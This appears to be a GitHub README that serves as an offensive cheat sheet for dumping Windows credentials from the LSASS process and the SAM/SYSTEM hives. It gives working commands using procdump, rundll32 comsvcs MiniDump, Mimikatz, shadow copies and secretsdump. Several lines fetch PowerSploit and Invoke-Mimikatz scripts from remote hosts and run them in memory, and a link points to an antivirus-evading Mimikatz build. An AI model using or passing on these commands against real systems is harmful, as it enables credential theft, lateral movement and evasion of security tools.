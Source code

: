 # Methods to Dump LSASS
Craft a comprehensive guide detailing various methods for dumping the LSASS.<br>
I think This will be a valuable one and will make people stay updated on new techniques.
## 1. Procdump:
Procdump is a part of Microsoft Sysinternals and a command-line<br>utility programs for producing dumps of any running process<br>
We can leverage it and use it fo DUMP lsass process by the following:<br>
<code>procdump.exe -ma lsass.exe C:\path\lsass.dmp</code>

## 2. Mimikatz:
Mimikatz can both dump the LSASS process and read from an LSASS dump:<br>
<code>privilege::debug = Debugging Mode
sekurlsa::logonPasswords = Dump passwords
</code>

* To Read from an LSASS dump:<br>
<code>sekurlsa::minidump C:\path\lsass.dmp
sekurlsa::logonpasswords</code>

## 3. Rundll32
This is a native Windows utility method which can we can use:<br>
<code>rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <LSASS_Process_ID> C:\path</code><br>
for getting lsass process ID, you can RUN "Get-Process lsass" on powershell.
* User can also done this by making a PS script containing the following:<br>
<code>$lsass = Get-Process lsass
$dumpPath = "C:\Users\Adwin2\Desktop\lsass.dmp"
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $($lsass.Id) $dumpPath full</code><br><br>
<b>Note</b>: Change $dumpPath

## 4. PowerSploit's Out-Minidump:
Ensure the Out-Minidump function is loaded in your PowerShell session<br>
<code>IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/raw/master/Exfiltration/Out-Minidump.ps1')"
Get-Process lsass | Out-Minidump -DumpFilePath C:\Path\To\Dump
</code>

#### 4.4 - Using 'MiniDump' to dump lsass into C:\Windows\Tasks:
<code>
IEX (New-Object Net.WebClient).DownloadString('https://github.com/chvancooten/OSEP-Code-Snippets/raw/main/MiniDump/MiniDump.ps1')
Reults will be save on C:\Windows\Tasks.
</code>

##  5. Using Invoke-Mimikatz from the GitHub Repository:
Download & Import the Script:
First, you need to get the Invoke-Mimikatz.ps1 script from the GitHub repository.
If you're working directly on the machine:
<code>IEX (New-Object Net.WebClient).DownloadString('https://github.com/g4uss47/Invoke-Mimikatz/raw/master/Invoke-Mimikatz.ps1')</code><br>

Invoke Mimikatz to Dump LSASS:<br>
Once the module is imported, you can run Invoke-Mimikatz to dump the LSASS</br>

<code>Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords"'</code><br>
* You can also using minidump module to select where to read:<br>
<code>Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::minidump C:\Path\To\Load\Lsass"'</code>

## 6. SAM/SECURITY [ Windows11 ]
SAM/SECURITY Hives: These contain local account information and system security policies. Dumping from these hives can provide hashed passwords for local accounts and details about security settings. This method requires access to system files either offline or through the system registry.

LSASS Process: LSASS handles both local and domain credentials, managing in-memory credential caches that include plaintext passwords, hashes, and Kerberos tickets. Dumping from LSASS offers a more comprehensive set of credentials, including those of currently logged-in users. This requires administrative access and is performed on a running system.

<code>
On windows 10/11:
1. $shadow = [WMIClass]"root\cimv2:Win32_ShadowCopy"
2. $shadow.Create("C:\\", "ClientAccessible")
3. copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[Number]\windows\system32\config\SAM C:\[SAM\To\Be\Saved\]
4. copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[Number]\windows\system32\config\SYSTEM C:\[SYSTEM\To\Be\Saved\]
5. python3 /opt/impacket/examples/secretsdump.py -sam Sam -system SYSTEM LOCAL
</code>

## 7. Mimikatz
<code>
Visit the link - > https://github.com/HernanRodriguez1/MimikatzFUD
</code>

Build: mimikatz 2.2.0 (x64) #19041 Aug 10 2021 02:01:23<br>
Tested: Microsoft Windows 11 Pro - 10.0.22000 N/D Compilación 22000
